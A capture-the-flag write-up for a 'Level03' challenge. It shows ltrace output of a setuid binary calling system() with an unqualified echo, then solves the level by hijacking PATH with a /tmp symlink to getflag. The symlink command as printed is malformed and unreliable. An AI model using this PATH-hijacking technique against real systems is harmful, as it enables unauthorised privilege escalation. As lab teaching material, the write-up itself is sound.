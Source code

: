# Level03

## Initial Check

When logged in as the Level03 user, we find a file named `level03` in the directory. First, we examine this file using the `ltrace` command.

```bash
ltrace ./level03
__libc_start_main(0x080484a4, 1, 0xbffff854, 0x08048510, 0x08048580 <unfinished ...>
getegid()                                      = 2003
geteuid()                                      = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me")        <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed>                           = 0
+++ exited (status 0) +++
```

## Analysis

1. When executed, the program runs the command `/usr/bin/env echo Exploit me` using the `system()` function
2. This command will use the first `echo` command found in the PATH variable
3. We can manipulate the PATH variable to execute our desired command

## Solution Steps

1. First, we create a fake `echo` command in the `/tmp` directory:
```bash
ln -s /bin/getflag /tmp echo
```

2. We update the PATH variable to include the `/tmp` directory:
```bash
export PATH=/tmp:$PATH
```

3. We run the program:
```bash
./level03
```

## Explanation

In this level, we exploit a privilege escalation vulnerability by manipulating the PATH variable. When the program executes the `echo` command, it checks the directories specified in the PATH variable sequentially. By adding the `/tmp` directory to the beginning of PATH, we make the program execute our fake `echo` command (which is actually a symbolic link to the `getflag` command).
